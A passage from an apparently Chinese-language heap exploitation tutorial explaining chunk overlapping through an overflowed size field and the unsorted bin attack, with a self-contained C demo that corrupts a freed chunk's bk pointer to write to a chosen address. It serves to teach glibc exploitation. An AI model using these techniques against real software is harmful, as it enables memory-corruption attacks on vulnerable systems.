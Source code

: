 接下来是最关键的一步，利用chunk 1的溢出漏洞，将chunk 2的size值修改为chunk 2和chunk 3的大小之和，即0x3f0+0x3f0+0x1=0x7e1，最后的1是标志位。

 ![image-20211226161421815](/assets/wgpsec/images/heap/image-20211226161421815.png)

这样当我们释放chunk 2的时候，malloc根据这个被修改的size值，会以为chunk 2加上 chunk 3的区域都是要释放的，然后就错误地修改了chunk 5的 prev_size。接着，它发现紧邻的一块chunk 4也是 free 状态，就把它俩合并在了一起，组成一个大free chunk，放进unsorted bin中。

 ![image-20211226161426600](/assets/wgpsec/images/heap/image-20211226161426600.png)

   再次去malloc 0x7e0大小的chunk p6会把包含p3的p2给申请到，这样再去编辑p6的时候也可以编辑到p3。

 ![image-20211226161431796](/assets/wgpsec/images/heap/image-20211226161431796.png)

## unsorted_bin_attack

​    unsorted bin攻击通常是为更进一步的攻击做准备的，我们知道unsorted bin是一个双向链表，在分配时会通过unlink操作将chunk从链表中移除，所以如果能够控制unsorted bin chunk的bk指针，就可以向任意位置写入一个指针。

  源码如下。

 ```c
 #include <stdio.h>
 #include <stdlib.h>
 
 int main(){
 
     fprintf(stderr, "unsorted bin attack 实现了把一个超级大的数（unsorted bin 的地址）写到一个地方\n");
     fprintf(stderr, "实际上这种攻击方法常常用来修改 global_max_fast 来为进一步的 fastbin attack 做准备\n\n");
 
     unsigned long stack_var=0;
     fprintf(stderr, "我们准备把这个地方 %p 的值 %ld 更改为一个很大的数\n\n", &stack_var, stack_var);
 
     unsigned long *p=malloc(0x410);
     fprintf(stderr, "一开始先申请一个比较正常的 chunk: %p\n",p);
     fprintf(stderr, "再分配一个避免与 top chunk 合并\n\n");
     malloc(500);
 
     free(p);
     fprintf(stderr, "当我们释放掉第一个 chunk 之后他会被放到 unsorted bin 中，同时它的 bk 指针为 %p\n",(void*)p[1]);
 
     p[1]=(unsigned long)(&stack_var-2);
     fprintf(stderr, "现在假设有个漏洞，可以让我们修改 free 了的 chunk 的 bk 指针\n");
     fprintf(stderr, "我们把目标地址（想要改为超大值的那个地方）减去 0x10 写到 bk 指针:%p\n\n",(void*)p[1]);
 
     malloc(0x410);
     fprintf(stderr, "再去 malloc 的时候可以发现那里的值已经改变为 unsorted bin 的地址\n");
     fprintf(stderr, "%p: %p\n", &stack_var, (void*)stack_var);
 }
 ```

​    编译完成之后分别在10、13、16、19行下断点。

​    然后运行，一开始先申请两个chunk，第二个是为了防止和top chunk合并。
